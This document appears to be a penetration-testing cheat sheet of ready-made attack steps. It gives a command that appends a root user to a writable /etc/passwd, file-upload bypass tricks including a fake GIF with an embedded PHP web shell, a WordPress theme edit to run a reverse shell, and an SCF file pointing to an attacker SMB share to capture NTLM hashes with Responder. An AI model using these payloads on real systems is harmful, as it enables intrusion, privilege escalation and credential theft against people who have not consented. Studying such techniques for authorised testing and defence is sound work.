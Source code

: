
# /etc/passwd Writable

Create New Root User
```
openssl passwd passwordofchoice > generatedhash

Create new user via append to /etc/passwd:
echo "username:generatedhash:0:0:userdisplayname:/root:/bin/bash" >> /etc/passwd
```

# File Upload Bypass

## General Notes

Brute Force Relevant File Extensions
```
Get a list of all file extensions used by or associated with the web server and it's language or tech stack.

For example, IIS/ASP will contain things like .config, .aspx, etc.
Official Microsoft Reference:
https://msdn.microsoft.com/en-us/library/2wawkw1c.aspx

Use Burp Suite Intruder to brute force uploading a file with all the different extensions.
```

## Image Upload Bypass

Change the Content-Type Header to the Expected Type
```
Convert between Content Types:
application/x-php
and
image/jpeg
etc.
```

Use Fake Gif with File Header (file.gif)
```
GIF89;
<?php echo system($_REQUEST['c']); ?>
```

# HTTP

## WordPress

Edit an active template page (e.g., 404.php) to execute a reverse shell or web shell to send a reverse shell.
```
Appearance > Editor > page.php

Execute the file:
http://target/wordpress/wp-content/themes/themenamenospaces/page.php
```

# SMB

SCF (Shell Command Files)

```
Start responder: sudo responder -v -I interface

(Note: Filename starts with @ to bring file to top of directory listing)
Contents of @test.scf:

[Shell]
Command=2
IconFile=\\attacker\share\test.ico
[Taskbar]
Command=ToggleDesktop

Deliver file.

When user opens file, an SMB connection will be made to the attacker, which should be captured by responder, revealing an NTLM hash.
```